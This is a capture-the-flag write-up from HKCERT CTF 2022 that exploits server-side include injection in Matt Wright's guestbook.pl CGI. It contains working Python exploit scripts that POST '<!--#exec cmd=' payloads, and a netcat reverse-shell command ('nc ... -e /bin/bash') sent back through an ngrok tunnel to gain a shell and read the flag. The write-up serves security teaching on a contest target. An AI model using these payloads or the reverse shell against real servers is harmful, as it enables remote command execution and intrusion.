 # CVE 1999

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

[Old news](https://www-info-gov-hk.translate.goog/gia/general/200002/24/0224258.htm?_x_tr_sl=zh-TW&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) is so existing

Web: [http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html) , [http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html)

Remark: The guestbook will be cleaned up per minute

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231222.png)

In here, we can see this is a **guestbook which created by Matt Wright**.

**addguest.html:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231430.png)

**Also, we can send a POST request to `/~matt/cgi-bin/guestbook.pl`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231506.png)

**Let's use `searchsploit` to see is there any public exploits!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit Matt Wright Guestbook
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Matt Wright Guestbook 2.3.1 - Guestbook.pl Multiple HTML Injection Vulne | cgi/webapps/27594.txt
The Matt Wright Guestbook.pl - Arbitrary Command Execution (Metasploit)  | cgi/webapps/16914.rb
The Matt Wright Guestbook.pl 2.3.1 - Server-Side Include                 | cgi/webapps/9907.rb
------------------------------------------------------------------------- ---------------------------------
```

**Looks like it's vulnerable to Server-Side Include (SSI)!**

**We can use `searchsploit -m` to mirror the exploit script:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit -m 16914
```

**Snipped `16914.rb` exploit script:**
```ruby
	def exploit
		realname	= rand_text_alphanumeric(20)
		email		= rand_text_alphanumeric(20)
		city		= rand_text_alphanumeric(20)
		state		= rand_text_alphanumeric(20)
		country 	= rand_text_alphanumeric(20)

		sploit = Rex::Text.uri_encode("<!--#exec cmd=\"" + payload.encoded.gsub('"','\"') + "\"", 'hex-normal')

		req1 = send_request_cgi({
			'uri'     => datastore['URI'],
			'method'  => 'POST',
			'data'    => "realname=#{realname}&username=#{email}&city=#{city}&state=#{state}&country=#{country}&comments=#{sploit}",
		}, 25)

		req2 = send_request_raw({
			'uri'     => datastore['URIOUT'],
		}, 25)

	end
```

**Hmm... Looks like the `<!--#exec cmd="payload_here"` is the payload!**

**Let's write a simple python script to automate that!**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': ''.join(random.choices(string.ascii_letters, k=20)),
	'comments': payload
}
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	#requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 chal_automate.py '<!--#exec cmd="/bin/ls /"'
```

**Now, when you refresh the `guessbook.html` page, you should see all the files in the target machine!**

> Note1: Although I get the flag, I have no idea why the exploit sometimes work, sometimes didn't work.

> Note2: After the CTF, [Kaiziron](https://twitter.com/kaiziron) said that the reason why it happens is because this:

```
$value =~ s/<!--(.|\n)*-->//g;
```

> To get the payload working, we need to put `-->` on another field to close the payload.

**Correct payload:**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': '-->',
	'comments': payload
}
	# Send the payload
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	
	# Trigger the payload
	requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

- Reverse shell:

**Ngrok for port forwarding:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# ngrok tcp 1337

Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    tcp://0.tcp.ap.ngrok.io:12434 -> localhost:1337
```


**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
```

**Send the payload:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 solve.py '<!--#exec cmd="nc 0.tcp.ap.ngrok.io 12434 -e /bin/bash"'
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59618
whoami;hostname;id
daemon
chal29-cve-1999-0
uid=1(daemon) gid=1(daemon) groups=1(daemon)

ls -lah /
[...]
-r--r--r--   1 root root   54 Oct 30 03:53 flag
[...]

cat /flag
hkcert22{DiDu_c0opy_others_FLags_or_c0rnment_brb_Tags}
```

We got the flag!

> Note: I also wrote a [Proof-of-Concept python exploit](https://github.com/siunam321/CVE-1999-1053-PoC) for this CVE!

# Conclusion

What we've learned:

1. Exploiting Server-Side Include Vulnerability